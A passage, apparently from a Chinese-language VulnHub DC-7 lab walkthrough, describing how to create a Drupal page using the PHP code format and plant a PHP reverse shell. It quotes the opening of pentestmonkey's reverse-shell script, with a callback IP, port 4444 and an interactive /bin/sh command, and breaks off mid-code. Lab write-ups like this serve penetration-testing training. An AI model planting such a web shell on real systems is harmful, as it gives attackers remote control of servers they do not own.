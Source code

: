 回到主页，在左边的 Tools 栏中点击 Add content -> Basic page,Text format 选择 PHP code

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC7/14.png)

写入一个 php 反向 shell 即可

找到一个可以直接利用的 php 源码 http://pentestmonkey.net/tools/web-shells/php-reverse-shell
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.141.134';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
```